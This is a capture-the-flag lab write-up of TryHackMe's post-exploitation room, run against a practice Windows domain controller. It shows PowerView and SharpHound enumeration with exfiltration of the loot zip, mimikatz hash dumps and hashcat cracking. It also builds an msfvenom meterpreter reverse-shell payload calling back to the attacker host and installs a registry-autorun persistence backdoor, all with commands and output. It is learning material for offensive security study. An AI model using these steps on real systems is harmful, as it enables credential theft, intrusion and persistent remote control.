





# Post-Exploitation

These notes are from a challenge I did @[tryhackme](https://tryhackme.com) called [Post-Exploitation Basics](https://tryhackme.com/room/postexploit).

## Enumeration with Powerview

Out of reflex, just scan target with ```nmap -sC -sV 10.10.225.31```

??? output "Nmap output"
    ``` txt
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-16 15:33 EDT
    Nmap scan report for 10.10.225.31
    Host is up (0.30s latency).
    Not shown: 987 closed ports
    PORT     STATE SERVICE       VERSION
    22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
    | ssh-hostkey:
    |   2048 96:d2:bc:63:49:65:18:f6:03:54:0f:7d:92:0f:8d:e8 (RSA)
    |   256 ec:59:64:da:54:05:16:ba:74:ef:35:73:94:a3:d2:61 (ECDSA)
    |_  256 1a:bb:4e:1b:ec:25:3c:14:69:9e:f4:69:0b:41:77:63 (ED25519)
    53/tcp   open  domain        Simple DNS Plus
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-09-16 19:33:36Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap
    | ssl-cert: Subject: commonName=Domain-Controller.CONTROLLER.local
    | Subject Alternative Name: othername:<unsupported>, DNS:Domain-Controller.CONTROLLER.local
    | Not valid before: 2020-10-03T15:15:57
    |_Not valid after:  2021-10-03T15:15:57
    |_ssl-date: 2021-09-16T19:34:19+00:00; +1s from scanner time.
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: CONTROLLER.local0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=Domain-Controller.CONTROLLER.local
    | Subject Alternative Name: othername:<unsupported>, DNS:Domain-Controller.CONTROLLER.local
    | Not valid before: 2020-10-03T15:15:57
    |_Not valid after:  2021-10-03T15:15:57
    |_ssl-date: 2021-09-16T19:34:19+00:00; +1s from scanner time.
    3268/tcp open  ldap
    | ssl-cert: Subject: commonName=Domain-Controller.CONTROLLER.local
    | Subject Alternative Name: othername:<unsupported>, DNS:Domain-Controller.CONTROLLER.local
    | Not valid before: 2020-10-03T15:15:57
    |_Not valid after:  2021-10-03T15:15:57
    |_ssl-date: 2021-09-16T19:34:19+00:00; +1s from scanner time.
    3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: CONTROLLER.local0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=Domain-Controller.CONTROLLER.local
    | Subject Alternative Name: othername:<unsupported>, DNS:Domain-Controller.CONTROLLER.local
    | Not valid before: 2020-10-03T15:15:57
    |_Not valid after:  2021-10-03T15:15:57
    |_ssl-date: 2021-09-16T19:34:19+00:00; +1s from scanner time.
    3389/tcp open  ms-wbt-server Microsoft Terminal Services
    | rdp-ntlm-info:
    |   Target_Name: CONTROLLER
    |   NetBIOS_Domain_Name: CONTROLLER
    |   NetBIOS_Computer_Name: DOMAIN-CONTROLL
    |   DNS_Domain_Name: CONTROLLER.local
    |   DNS_Computer_Name: Domain-Controller.CONTROLLER.local
    |   Product_Version: 10.0.17763
    |_  System_Time: 2021-09-16T19:34:08+00:00
    | ssl-cert: Subject: commonName=Domain-Controller.CONTROLLER.local
    | Not valid before: 2021-09-15T19:25:35
    |_Not valid after:  2022-03-17T19:25:35
    |_ssl-date: 2021-09-16T19:34:19+00:00; +1s from scanner time.
    Service Info: Host: DOMAIN-CONTROLL; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled and required
    | smb2-time:
    |   date: 2021-09-16T19:34:10
    |_  start_date: N/A

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 59.30 seconds
    ```

Login with SSH using the given credentials: `ssh -l Administrator@CONTROLLER 10.10.225.31`

``` ps11
powershell -ep bypass
. .\Downloads\PowerView.ps1
Get-NetUser | select cn
Get-NetGroup -GroupName *admin*
```

??? output "Get-NetUser"
    ``` txt
    cn
    --
    Administrator
    Guest
    krbtgt
    Machine-1
    Admin2
    Machine-2
    SQL Service
    POST{P0W3RV13W_FTW}
    sshd
    ```

??? output "Get-NetGroup"
    ``` txt
    Administrators
    Hyper-V Administrators
    Storage Replica Administrators
    Schema Admins
    Enterprise Admins
    Domain Admins
    Key Admins
    Enterprise Key Admins
    DnsAdmins
    ```

What is the shared folder that is not set by default? `Invoke-ShareFinder`

??? output "Get-NetGroup"
    ``` txt
    \\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin
    \\Domain-Controller.CONTROLLER.local\C$         - Default share
    \\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
    \\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
    \\Domain-Controller.CONTROLLER.local\Share      -
    \\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share
    ```

What operating system is running inside of the network besides Windows Server 2019 `Get-NetComputer -fulldata | select operatingsystem`

??? output "Get-NetGroup"
    ``` txt
    operatingsystem
    ---------------
    Windows Server 2019 Standard
    Windows 10 Enterprise Evaluation
    Windows 10 Enterprise Evaluation
    ```

Install bloodhound and run neo4j

``` sh
apt-get install bloodhound
neo4j console
```

??? output "neo4j console"
    ``` txt
    Directories in use:
    home:         /usr/share/neo4j
    config:       /usr/share/neo4j/conf
    logs:         /usr/share/neo4j/logs
    plugins:      /usr/share/neo4j/plugins
    import:       /usr/share/neo4j/import
    data:         /usr/share/neo4j/data
    certificates: /usr/share/neo4j/certificates
    run:          /usr/share/neo4j/run
    Starting Neo4j.
    WARNING: Max 1024 open files allowed, minimum of 40000 recommended. See the Neo4j manual.
    2021-09-16 19:47:14.222+0000 INFO  Starting...
    2021-09-16 19:47:17.369+0000 INFO  ======== Neo4j 4.2.1 ========
    2021-09-16 19:47:19.944+0000 INFO  Initializing system graph model for component 'security-users' with version -1 and status UNINITIALIZED
    2021-09-16 19:47:19.964+0000 INFO  Setting up initial user from defaults: neo4j
    2021-09-16 19:47:19.964+0000 INFO  Creating new user 'neo4j' (passwordChangeRequired=true, suspended=false)
    2021-09-16 19:47:19.983+0000 INFO  Setting version for 'security-users' to 2
    2021-09-16 19:47:19.989+0000 INFO  After initialization of system graph model component 'security-users' have version 2 and status CURRENT
    2021-09-16 19:47:19.996+0000 INFO  Performing postInitialization step for component 'security-users' with version 2 and status CURRENT
    2021-09-16 19:47:20.462+0000 INFO  Bolt enabled on localhost:7687.
    2021-09-16 19:47:21.918+0000 INFO  Remote interface available at http://localhost:7474/
    2021-09-16 19:47:21.918+0000 INFO  Started.
    ```

Getting loot with SharpHound

``` ps11
powershell -ep bypass
. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

??? output "loot.zip"
    ``` txt
    Directory: C:\Users\Administrator

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-r---        5/13/2020   8:01 PM                3D Objects
    d-r---        5/13/2020   8:01 PM                Contacts
    d-r---        5/13/2020   8:01 PM                Desktop
    d-r---        5/14/2020   8:27 PM                Documents
    d-r---        10/3/2020   8:33 AM                Downloads
    d-r---        5/13/2020   8:01 PM                Favorites
    d-r---        5/13/2020   8:01 PM                Links
    d-r---        5/13/2020   8:01 PM                Music
    d-r---        5/13/2020   8:01 PM                Pictures
    d-r---        5/13/2020   8:01 PM                Saved Games
    d-r---        5/13/2020   8:01 PM                Searches
    d-r---        5/13/2020   8:01 PM                Videos
    -a----        9/16/2021  12:58 PM           9496 20210916125838_loot.zip
    -a----        9/16/2021  12:58 PM          11709 YmM2MWQ1NzYtYWFhYS00MjM1LThjYmQtYTE4ZDM4ZGFiNTFl.bin
    ```

Copy file to Kali server: `scp -r Administrator@10.10.225.31:/Users/Administrator/20210916125838_loot.zip .`

Setup a SSH Tunnel for port 7474 and 7687 (example just shows 7474)



Login to neo4j



Run `bloodhound` and login and load the file we copied:





Use the queries to search for answers you need...



## Dumping hashes with mimikatz

On the target server run mimikatz

??? output "mimikatz"
    ``` txt
    PS C:\Users\Administrator\Downloads> .\mimikatz.exe

    .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
    '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
    '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

    mimikatz # privilege::debug
    Privilege '20' OK

    mimikatz # lsadump::lsa /patch
    Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166

    RID  : 000001f4 (500)
    User : Administrator
    LM   :
    NTLM : 2777b7fec870e04dda00cd7260f7bee6

    RID  : 000001f5 (501)
    User : Guest
    LM   :
    NTLM :

    RID  : 000001f6 (502)
    User : krbtgt
    LM   :
    NTLM : 5508500012cc005cf7082a9a89ebdfdf

    RID  : 0000044f (1103)
    User : Machine1
    LM   :
    NTLM : 64f12cddaa88057e06a81b54e73b949b

    RID  : 00000451 (1105)
    User : Admin2
    LM   :
    NTLM : 2b576acbe6bcfda7294d6bd18041b8fe

    RID  : 00000452 (1106)
    User : Machine2
    LM   :
    NTLM : c39f2beb3d2ec06a62cb887fb391dee0

    RID  : 00000453 (1107)
    User : SQLService
    LM   :
    NTLM : f4ab68f27303bcb4024650d8fc5f973a

    RID  : 00000454 (1108)
    User : POST
    LM   :
    NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

    RID  : 00000457 (1111)
    User : sshd
    LM   :
    NTLM : 2777b7fec870e04dda00cd7260f7bee6

    RID  : 000003e8 (1000)
    User : DOMAIN-CONTROLL$
    LM   :
    NTLM : aaef917074163b7c853c3f019f33bcd9

    RID  : 00000455 (1109)
    User : DESKTOP-2$
    LM   :
    NTLM : 3c2d4759eb9884d7a935fe71a8e0f54c

    RID  : 00000456 (1110)
    User : DESKTOP-1$
    LM   :
    NTLM : 7d33346eeb11a4f12a6c201faaa0d89a
    ```

Let us start by cracking the SQLService: `hashcat -m 1000 f4ab68f27303bcb4024650d8fc5f973a /usr/share/wordlists/rockyou.txt`

hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

??? output "hashcat"
    ``` txt
    fab1@kali:~$ hashcat -m 1000 f4ab68f27303bcb4024650d8fc5f973a /usr/share/wordlists/rockyou.txt
    hashcat (v6.1.1) starting...

    OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
    =============================================================================================================================
    * Device #1: pthread-Intel(R) Xeon(R) Platinum 8171M CPU @ 2.60GHz, 13896/13960 MB (4096 MB allocatable), 4MCU

    Minimum password length supported by kernel: 0
    Maximum password length supported by kernel: 256

    Hashes: 1 digests; 1 unique digests, 1 unique salts
    Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
    Rules: 1

    Applicable optimizers applied:
    * Zero-Byte
    * Early-Skip
    * Not-Salted
    * Not-Iterated
    * Single-Hash
    * Single-Salt
    * Raw-Hash

    ATTENTION! Pure (unoptimized) backend kernels selected.
    Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
    If you want to switch to optimized backend kernels, append -O to your commandline.
    See the above message to find out about the exact limits.

    Watchdog: Hardware monitoring interface not found on your system.
    Watchdog: Temperature abort trigger disabled.

    Host memory required for this attack: 65 MB

    Dictionary cache built:
    * Filename..: /usr/share/wordlists/rockyou.txt
    * Passwords.: 14344392
    * Bytes.....: 139921507
    * Keyspace..: 14344385
    * Runtime...: 2 secs

    f4ab68f27303bcb4024650d8fc5f973a:MYpassword123#

    Session..........: hashcat
    Status...........: Cracked
    Hash.Name........: NTLM
    Hash.Target......: f4ab68f27303bcb4024650d8fc5f973a
    Time.Started.....: Thu Sep 16 16:53:00 2021 (3 secs)
    Time.Estimated...: Thu Sep 16 16:53:03 2021 (0 secs)
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:  3817.3 kH/s (0.25ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
    Recovered........: 1/1 (100.00%) Digests
    Progress.........: 10846208/14344385 (75.61%)
    Rejected.........: 0/10846208 (0.00%)
    Restore.Point....: 10842112/14344385 (75.58%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
    Candidates.#1....: Magic01 -> MYSELFonly4EVER

    Started: Thu Sep 16 16:52:35 2021
    Stopped: Thu Sep 16 16:53:04 2021
    ```

Looks like we need to crack the passwords of Machine1 (64f12cddaa88057e06a81b54e73b949b) and Machine2 (c39f2beb3d2ec06a62cb887fb391dee0)...

## Maintaining Access

Generating a Payload with msfvenom

``` sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.193.173 LPORT=5555 -f exe -o sh3ll.exe
```

Start metasplot and listen

``` sh
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

??? output "exploit/multi/handler"
    ``` txt

    ```

Move file to target and run it:

``` sh
scp sh3ll.exe Administrator@10.10.119.134:/Users/Administrator/sh3ll.exe
ssh -l Administrator@CONTROLLER 10.10.119.134
PS C:\Users\Administrator\> sh3ll.exe
```

Let's create a 

background

use exploit/windows/local/persistence

??? output "exploit/windows/local/persistence"
    ``` txt
    Global
    ======

    No entries in data store.

    Module: windows/local/persistence
    =================================

    Name                    Value
    ----                    -----
    ContextInformationFile
    DELAY                   10
    DisablePayloadHandler   true
    EXE::Custom
    EXE::EICAR              false
    EXE::FallBack           false
    EXE::Inject             false
    EXE::OldMethod          false
    EXE::Path
    EXE::Template
    EXEC_AFTER              false
    EXE_NAME
    EnableContextEncoding   false
    HANDLER                 false
    LHOST                   10.9.193.173
    LPORT                   4444
    MSI::Custom
    MSI::EICAR              false
    MSI::Path
    MSI::Template
    MSI::UAC                false
    PATH
    PAYLOAD                 windows/meterpreter/reverse_tcp
    REG_NAME
    SESSION                 3
    STARTUP                 USER
    VBS_NAME
    VERBOSE                 false
    WORKSPACE
    WfsDelay                2
    ```

This is the output of running `exploit/windows/local/persistence`. As you can see we add `iwIPTcY.vbs` to run during the next start. `iwIPTcY.vbs` contains a base64 encoded executable that will help getting a reverse shell when listening on the right port by sending a payload every 10 seconds.

``` txt
msf6 exploit(windows/local/persistence) > run

[!] SESSION may not be compatible with this module (missing Meterpreter features: stdapi_sys_process_set_term_size)
[*] Running persistent module against DOMAIN-CONTROLL via session ID: 3
[+] Persistent VBS script written on DOMAIN-CONTROLL to C:\Users\Administrator\AppData\Local\Temp\iwIPTcY.vbs
[*] Installing as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\xFgziBlM
[+] Installed autorun on DOMAIN-CONTROLL as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\xFgziBlM
[*] Clean up Meterpreter RC file: /home/fab1/.msf4/logs/persistence/DOMAIN-CONTROLL_20210923.3728/DOMAIN-CONTROLL_20210923.3728.rc
```

Set a new multi handler to use `windows/meterpreter/reverse_tcp`

``` sh
use exploit/multi/handler
use windows/meterpreter/reverse_tcp
```

??? output "exploit/multi/handler"
    ``` txt
    Global
    ======

    No entries in data store.

    Module: multi/handler
    =====================

    Name                    Value
    ----                    -----
    ContextInformationFile
    DisablePayloadHandler   false
    EnableContextEncoding   false
    ExitOnSession           true
    LHOST                   10.10.119.134
    LPORT                   5555
    ListenerTimeout         0
    PAYLOAD                 windows/meterpreter/reverse_tcp
    VERBOSE                 true
    WORKSPACE
    WfsDelay                2
    ```

After a reboot of the victim we get a new shell:

??? output "exploit/multi/handler"
    ``` txt
    [-] Handler failed to bind to 10.10.119.134:4444:-  -
    [*] Started reverse TCP handler on 0.0.0.0:4444
    [*] 10.10.119.134 - Meterpreter session 3 closed.  Reason: Died

    msf6 exploit(multi/handler) > run

    [-] Handler failed to bind to 10.10.119.134:4444:-  -
    [*] Started reverse TCP handler on 0.0.0.0:4444
    C:\Users\Administrator\AppData\Local\Temp\[*] Sending stage (175174 bytes) to 10.10.119.134
    [*] Meterpreter session 4 opened (10.9.193.173:4444 -> 10.10.119.134:49750) at 2021-09-23 15:45:54 -0400

    meterpreter > sysinfo
    Computer        : DOMAIN-CONTROLL
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : CONTROLLER
    Logged On Users : 9
    Meterpreter     : x86/windows
    ```
